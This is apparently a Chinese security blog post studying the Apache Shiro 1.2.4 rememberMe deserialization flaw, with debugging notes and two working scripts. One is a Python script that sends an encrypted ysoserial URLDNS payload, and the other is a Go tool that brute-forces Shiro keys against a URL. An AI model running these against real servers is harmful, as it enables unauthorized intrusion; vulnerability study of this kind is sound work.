







> 记录shiro漏洞学习的过程, 参考https://saucer-man.com/information_security/396.html, 并在漏洞分析基础上编写检测脚本

<!--more-->

## 环境搭建

```
git clone https://github.com/apache/shiro.git
cd shiro
git checkout shiro-root-1.2.4 
```

设置`shiro/samples/web/pom.xml`, 添加版本1.2

```xml
<dependency>
    <groupId>javax.servlet</groupId>
    <artifactId>jstl</artifactId>
    <version>1.2</version>
    <scope>runtime</scope>
</dependency>
```

为tomcat8文件添加权限

```
sudo chmod -R 755 /var/lib/tomcat8
sudo chmod -R 755 /etc/tomcat8
```

使用idea打开`shiro/samples/web`项目, 等待maven项目依赖下载完成, 编辑配置



进入Deployment, 添加artifact


启动项目, 看到下面的页面就说明环境搭建完成了


## 漏洞调试

### 登陆过程

首先看登陆过程, 在`org.apache.shiro.mgt.AbstractRememberMeManager#onSuccessfulLogin`打下断点, 随后在浏览器中选中Remember Me选项进行登陆, 程序进入断点:



在`forgetIdentity`函数中, 会尝试获取request 和 response, 并移除之前的身份信息.



回到之前的函数, 进入第一个if分支, 进入`rememberIdentity`函数, `this.getIdentityToRemember`函数获取到身份信息, 然后调用`rememberIdentity`函数.


`rememberIdentity`函数中, 首先将`accountPrincipals`转换成bytes


转换的逻辑为先进行序列化然后再进行加密, 如下


加密的方式为AES加密


跟进密钥获取的函数



从最后一行可以看到,在对象初始化的时候, 自动设置密钥为默认密钥



返回到`rememberIdentity`函数, 跟进`rememberSerializedIdentity`, 这里主要是将加密结果经过base64之后存储进cookie中


### rememberMe解密过程

在``org.apache.shiro.mgt.DefaultSecurityManager#getRememberedIdentity` 打下断点, 使用脚本向本地服务器发送payload

```python
from Crypto.Cipher import AES
import traceback
import requests
import subprocess
import uuid
import base64

target = "http://localhost:8000/web_war/"
jar_file = './ysoserial.jar'
cipher_key = "kPH+bIxk5D2deZiIxcaaaA=="

popen = subprocess.Popen(['java','-jar',jar_file, "URLDNS", "http://ktclkl.dnslog.cn"],
                        stdout=subprocess.PIPE)
BS = AES.block_size
pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
mode = AES.MODE_CBC
iv = uuid.uuid4().bytes
encryptor = AES.new(base64.b64decode(cipher_key), mode, iv)
getget = popen.stdout.read()
file_body = pad(getget)
base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))

try:
    print(base64_ciphertext.decode())
    r = requests.get(target, cookies={'rememberMe':base64_ciphertext.decode()}, timeout=10)
except:
    traceback.print_exc()
```

##### 

跟进函数, 发现`getRememberMeManager`会返回cookie的信息, 加密服务和加密解密用的密钥. 



接下来, 跟进`getRememberedPrincipals`函数, 首先会尝试获取rememberMe中的序列化对象, 然后


看看`getRememberedSerializedIdentity`的内容, 主要环节就是获取cookie并进行bas64解密, 并将解密结果返回回去.



接下来进入 `convertBytesToPrincipals`函数, 可以看到这里进行了解密操作, 并且进行了反序列化操作. 解密操作和之前的加密操作类似, 


至此 , 反序列化漏洞触发. 总体来说这个漏洞跟起来并不复杂. 

## 密钥爆破

这里参考https://mp.weixin.qq.com/s/do88_4Td1CSeKLmFqhGCuQ的方法编写自己的shiro检测脚本, 脚本中的密钥字典来源于https://github.com/pmiaowu/BurpShiroPassiveScan的代码

```golang
package main

import (
	"bytes"
	"crypto/aes"
	"crypto/cipher"
	"encoding/base64"
	"log"
	"net/http"
	"os"
	"strings"
	"time"
)

func main() {
	args := os.Args[1:]
	if len(args) < 1 {
		log.Println("usage: ./shiro-brute-key {url}")
		log.Println("\033[31mNo args specific, exit\033[0m")
		return
	}
	var url string = args[0]

	// start to detect shiro
	if detectShiro(url) != true {
		log.Println("\033[31mSeems no shiro, exit\033[0m")
		return
	}
	log.Println("\033[32mShiro detected!\033[0m")
	log.Println("\033[34mStart bruting key......\033[0m")

	var result bool
	var key string
	if result, key = bruteKey(url);result!=true {
		log.Println("\033[31mBrute failed!\033[0m")
		return
	}

	log.Println("\033[33mBrute success!Key: " + key + " \033[0m")
	return
}

func detectShiro(url string) (result bool) {
	client := &http.Client{Timeout: time.Second * 10}
	req, _ := http.NewRequest("GET", url, nil)
	req.Header.Add("Cookie", "rememberMe=1")
	req.Header.Add("User-Agent", "Mozilla/5.0 (X11; Linux x86_64; rv:97.0) Gecko/20100101 Firefox/97.0")
	resp, err := client.Do(req)
	if err != nil {
		log.Println("Error with http request,please check your url")
		return
	}
	setCookies := resp.Cookies()
	for _, cookie := range setCookies {
		if strings.Contains(cookie.String(), "rememberMe=deleteMe") {
			log.Println("Found return cookie: " + cookie.String())
			return true
		}
	}
	return false
}

func bruteKey(url string) (bool, string) {
	key_dict := [...]string{
		"kPH+bIxk5D2deZiIxcaaaA==", "Z3VucwAAAAAAAAAAAAAAAA==", "wGiHplamyXlVB11UXWol8g==",
		"2AvVhdsgUs0FSA3SDFAdag==", "3AvVhmFLUs0KTA3Kprsdag==", "4AvVhmFLUs0KTA3Kprsdag==",
		"bWljcm9zAAAAAAAAAAAAAA==", "WcfHGU25gNnTxTlmJMeSpw==", "fCq+/xW488hMTCD+cmJ3aQ==",
		"kPv59vyqzj00x11LXJZTjJ2UHW48jzHN", "6ZmI6I2j5Y+R5aSn5ZOlAA==", "1QWLxg+NYmxraMoxAXu/Iw==",
		"a2VlcE9uR29pbmdBbmRGaQ==", "5aaC5qKm5oqA5pyvAAAAAA==", "1AvVhdsgUs0FSA3SDFAdag==",
		"5RC7uBZLkByfFfJm22q/Zw==", "3AvVhdAgUs0FSA4SDFAdBg==", "a3dvbmcAAAAAAAAAAAAAAA==",
		"eXNmAAAAAAAAAAAAAAAAAA==", "U0hGX2d1bnMAAAAAAAAAAA==", "Ymx1ZXdoYWxlAAAAAAAAAA==",
		"L7RioUULEFhRyxM7a2R/Yg==", "UGlzMjAxNiVLeUVlXiEjLw==", "bWluZS1hc3NldC1rZXk6QQ==",
		"ZUdsaGJuSmxibVI2ZHc9PQ==", "7AvVhmFLUs0KTA3Kprsdag==", "MTIzNDU2Nzg5MGFiY2RlZg==",
		"OY//C4rhfwNxCQAQCrQQ1Q==", "bTBANVpaOUw0ampRWG43TVJFcF5iXjdJ", "FP7qKJzdJOGkzoQzo2wTmA==",
		"nhNhwZ6X7xzgXnnZBxWFQLwCGQtJojL3", "LEGEND-CAMPUS-CIPHERKEY==", "r0e3c16IdVkouZgk1TKVMg==",
		"ZWvohmPdUsAWT3=KpPqda", "k3+XHEg6D8tb2mGm7VJ3nQ==", "U3ByaW5nQmxhZGUAAAAAAA==",
		"tiVV6g3uZBGfgshesAQbjA==", "ZAvph3dsQs0FSL3SDFAdag==", "0AvVhmFLUs0KTA3Kprsdag==",
		"25BsmdYwjnfcWmnhAciDDg==", "3JvYhmBLUs0ETA5Kprsdag==", "5AvVhmFLUs0KTA3Kprsdag==",
		"6AvVhmFLUs0KTA3Kprsdag==", "6NfXkC7YVCV5DASIrEm1Rg==", "cmVtZW1iZXJNZQAAAAAAAA==",
		"8AvVhmFLUs0KTA3Kprsdag==", "8BvVhmFLUs0KTA3Kprsdag==", "9AvVhmFLUs0KTA3Kprsdag==",
		"OUHYQzxQ/W9e/UjiAGu6rg==", "aU1pcmFjbGVpTWlyYWNsZQ==", "bXRvbnMAAAAAAAAAAAAAAA==",
		"5J7bIJIV0LQSN3c9LPitBQ==", "bya2HkYo57u6fWh5theAWw==", "f/SY5TIve5WWzT4aQlABJA==",
		"WuB+y2gcHRnY2Lg9+Aqmqg==", "3qDVdLawoIr1xFd6ietnwg==", "YI1+nBV//m7ELrIyDHm6DQ==",
		"6Zm+6I2j5Y+R5aS+5ZOlAA==", "2A2V+RFLUs+eTA3Kpr+dag==", "6ZmI6I2j3Y+R1aSn5BOlAA==",
		"SkZpbmFsQmxhZGUAAAAAAA==", "2cVtiE83c4lIrELJwKGJUw==", "fsHspZw/92PrS3XrPW+vxw==",
		"XTx6CKLo/SdSgub+OPHSrw==", "sHdIjUN6tzhl8xZMG3ULCQ==", "O4pdf+7e+mZe8NyxMTPJmQ==",
		"HWrBltGvEZc14h9VpMvZWw==", "rPNqM6uKFCyaL10AK51UkQ==", "Y1JxNSPXVwMkyvES/kJGeQ==",
		"lT2UvDUmQwewm6mMoiw4Ig==", "MPdCMZ9urzEA50JDlDYYDg==", "xVmmoltfpb8tTceuT5R7Bw==",
		"c+3hFGPjbgzGdrC+MHgoRQ==", "ClLk69oNcA3m+s0jIMIkpg==", "Bf7MfkNR0axGGptozrebag==",
		"1tC/xrDYs8ey+sa3emtiYw==", "ZmFsYWRvLnh5ei5zaGlybw==", "cGhyYWNrY3RmREUhfiMkZA==",
		"IduElDUpDDXE677ZkhhKnQ==", "yeAAo1E8BOeAYfBlm4NG9Q==", "cGljYXMAAAAAAAAAAAAAAA==",
		"2itfW92XazYRi5ltW0M2yA==", "XgGkgqGqYrix9lI6vxcrRw==", "ertVhmFLUs0KTA3Kprsdag==",
		"5AvVhmFLUS0ATA4Kprsdag==", "s0KTA3mFLUprK4AvVhsdag==", "hBlzKg78ajaZuTE0VLzDDg==",
		"9FvVhtFLUs0KnA3Kprsdyg==", "d2ViUmVtZW1iZXJNZUtleQ==", "yNeUgSzL/CfiWw1GALg6Ag==",
		"NGk/3cQ6F5/UNPRh8LpMIg==", "4BvVhmFLUs0KTA3Kprsdag==", "MzVeSkYyWTI2OFVLZjRzZg==",
		"CrownKey==a12d/dakdad", "empodDEyMwAAAAAAAAAAAA==", "A7UzJgh1+EWj5oBFi+mSgw==",
		"c2hpcm9fYmF0aXMzMgAAAA==", "i45FVt72K2kLgvFrJtoZRw==", "66v1O8keKNV3TTcGPK1wzg==",
		"U3BAbW5nQmxhZGUAAAAAAA==", "ZnJlc2h6Y24xMjM0NTY3OA==", "Jt3C93kMR9D5e8QzwfsiMw==",
		"MTIzNDU2NzgxMjM0NTY3OA==", "vXP33AonIp9bFwGl7aT7rA==", "V2hhdCBUaGUgSGVsbAAAAA==",
		"Q01TX0JGTFlLRVlfMjAxOQ==", "Is9zJ3pzNh2cgTHB4ua3+Q==", "SDKOLKn2J1j/2BHjeZwAoQ==",
		"NsZXjXVklWPZwOfkvk6kUA==", "GAevYnznvgNCURavBhCr1w==", "zSyK5Kp6PZAAjlT+eeNMlg==",
		"bXdrXl9eNjY2KjA3Z2otPQ==", "RVZBTk5JR0hUTFlfV0FPVQ==", "WkhBTkdYSUFPSEVJX0NBVA==",
		"GsHaWo4m1eNbE0kNSMULhg==", "l8cc6d2xpkT1yFtLIcLHCg==", "KU471rVNQ6k7PQL4SqxgJg==",
		"kPH+bIxk5D2deZiIxcabaA==", "kPH+bIxk5D2deZiIxcacaA==", "4AvVhdsgUs0F563SDFAdag==",
		"FL9HL9Yu5bVUJ0PDU1ySvg==", "fdCEiK9YvLC668sS43CJ6A==", "FJoQCiz0z5XWz2N2LyxNww==",
		"HeUZ/LvgkO7nsa18ZyVxWQ==", "HoTP07fJPKIRLOWoVXmv+Q==", "iycgIIyCatQofd0XXxbzEg==",
		"m0/5ZZ9L4jjQXn7MREr/bw==", "NoIw91X9GSiCrLCF03ZGZw==", "oPH+bIxk5E2enZiIxcqaaA==",
		"QAk0rp8sG0uJC4Ke2baYNA==", "Rb5RN+LofDWJlzWAwsXzxg==", "s2SE9y32PvLeYo+VGFpcKA==",
		"SrpFBcVD89eTQ2icOD0TMg==", "Us0KvVhTeasAm43KFLAeng==", "YWJjZGRjYmFhYmNkZGNiYQ==",
		"zIiHplamyXlVB11UXWol8g==", "ZjQyMTJiNTJhZGZmYjFjMQ==", "kPv59vyqzj00x11LXJZTjJ2UHW48jzHN",
		"2adsfasdqerqerqewradsf==", "2AvVCXsxUs0FSA7SYFjdQg==", "2AvVhdsgERdsSA3SDFAdag==",
		"2AvVhdsgUs0FSA3SaFAdfg==", "2AvVhdsgUs0FSA3SDFAder==", "2AvVhdsgUsOFSA3SDFAdag==",
		"2AvVhmFLUs0KTA3Kprsdag==", "2AvVidsaUSofSA3SDFAdog==", "3Av2hmFLAs0BTA3Kprsd6E==",
		"3AvVhdAgUs1FSA4SDFAdBg==", "3AvVhMFLIs0KTA3Kprsdag==", "3AvVhmFLUs0KTA3KaTHGFg==",
		"3AvVhmFLUs0KTA3Kprsdag==", "3qDVdLawoIr1xFd6ietnsg==", "3rvVhmFLUs0KAT3Kprsdag==",
		"4AvVhm2LUs0KTA3Kprsdag==", "4AvVhmFLUs0KTA3KAAAAAA==", "4AvVhmFLUs0KTA3Kprseaf==",
		"4AvVhmFLUs0TTA3Kprsdag==", "4AvVhmFLUs5KTA1Kprsdag==", "4AvVhmFLUsOKTA3Kprsdag==",
		"4rvVhmFLUs0KAT3Kprsdag==", "4WCZSJyqdUQsije93aQIRg==", "5AvVhCsgUs0FSA3SDFAdag==",
		"5oiR5piv5p2h5ZK46bG8IQ==", "8AvVhdsgUs0FSA3SDFAdag==", "9Ami6v2G5Y+r5aPnE4OlBB==",
		"9AVvhnFLuS3KTV8KprsdAg==", "AF05JAuyuEB1ouJQ9Y9Phg==", "aG91c2Vob3VzZWhvdXNlMg==",
		"A+kWR7o9O0/G/W6aOGesRA==", "AztiX2RUqhc7dhOzl1Mj8Q==", "b2EAAAAAAAAAAAAAAAAAAA==",
		"B9rPF8FHhxKJZ9k63ik7kQ==", "c2hvdWtlLXBsdXMuMjAxNg==", "Cj6LnKZNLEowAZrdqyH/Ew==",
		"duhfin37x6chw29jsne45m==", "fCq+/xW488hMTCE+cmJ3FF==", "FjbNm1avvGmWE9CY2HqV75==",
		"FP7qKJzdJOGkzoQzo2wTmA==", "GhrF5zLfq1Dtadd1jlohhA==", "GHxH6G3LFh8Zb3NwoRgfFA==",
		"HOlg7NHb9potm0n5s4ic0Q==", "lt181dcQVz/Bo9Wb8ws/Cg==", "M2djA70UBBUPDibGZBRvrA==",
		"mIccZhQt6EBHrZIyw1FAXQ==", "pbnA+Qzen1vjV3rNqQBLHg==", "pyyX1c5x2f0LZZ7VKZXjKO==",
		"QDFCnfkLUs0KTA3Kprsdag==", "QF5HMyZAWDZYRyFnSGhTdQ==", "qQFtSnnj/sx7vu51ixAyEQ==",
		"QUxQSEFNWVNPRlRCVUlMRA==", "QVN1bm5uJ3MgU3Vuc2l0ZQ==", "R29yZG9uV2ViAAAAAAAAAA==",
		"sBv2t3okbdm3U0r2EVcSzB==", "sgIQrqUVxa1OZRRIK3hLZw==", "TGMPe7lGO/Gbr38QiJu1/w==",
		"UGlzMjAxNiVLeUVlXiEjLw==", "w793pPq5ZVBKkj8OhV4KaQ==", "wrjUh2ttBPQLnT4JVhriug==",
		"wyLZMDifwq3sW1vhhHpgKA==", "YnlhdnMAAAAAAAAAAAAAAA==", "YVd4dmRtVjViM1UlM0QIdn==",
		"YWdlbnRAZG1AMjAxOHN3Zg==", "YystomRZLMUjiK0Q1+LFdw==", "Z3VucwAAAAAAAAAAAAABBB==",
		"Z3VucwACAOVAKALACAADSA=="}
	for _, key := range key_dict {
		log.Println("\033[34mTry key: "+ key + "\033[0m")
		rememberMe := generateRememberMe(key)
		if rememberMe == "" {continue}
		client := &http.Client{Timeout: time.Second * 10}
		req, _ := http.NewRequest("GET", url, nil)
		req.Header.Add("Cookie", "rememberMe="+rememberMe)
		req.Header.Add("User-Agent", "Mozilla/5.0 (X11; Linux x86_64; rv:97.0) Gecko/20100101 Firefox/97.0")
		resp, err := client.Do(req)
		time.Sleep(time.Second * 2)
		if err != nil {
			log.Panicln("Error with http request,please check your url")
		}
		setCookies := resp.Cookies()
		for _, cookie := range setCookies {
			log.Println(cookie.String())
			if strings.Contains(cookie.String(), "rememberMe=deleteMe") {
				return false, ""
			}
		}
		return true, key
	}

	return false, ""
}


func generateRememberMe(key string) string {
	bIV := []byte("1234567890123456")
	bKey, err := base64.StdEncoding.DecodeString(key)
	if err != nil {return ""}
	payload := "rO0ABXNyADJvcmcuYXBhY2hlLnNoaXJvLnN1YmplY3QuU2ltcGxlUHJpbmNpcGFsQ29sbGVjdGlvbqh/WCXGowhKAwABTAAPcmVhbG1QcmluY2lwYWxzdAAPTGphdmEvdXRpbC9NYXA7eHBwdwEAeA=="
	bPayload, _ := base64.StdEncoding.DecodeString(payload)
	bPayload = PKCS5Padding(bPayload, aes.BlockSize)

	block, err := aes.NewCipher(bKey)
	if err != nil {
		log.Panicln(err)
	}
	ciphertext := make([]byte, aes.BlockSize + len(bPayload))
	mode := cipher.NewCBCEncrypter(block, bIV)
	mode.CryptBlocks(ciphertext[aes.BlockSize:], bPayload)
	copy(ciphertext[:aes.BlockSize], bIV)
	return base64.StdEncoding.EncodeToString(ciphertext)
}

func PKCS5Padding(ciphertext []byte, blockSize int) []byte {
	padding := (blockSize - len(ciphertext)%blockSize)
	padtext := bytes.Repeat([]byte{byte(padding)}, padding)
	return append(ciphertext, padtext...)
}

```


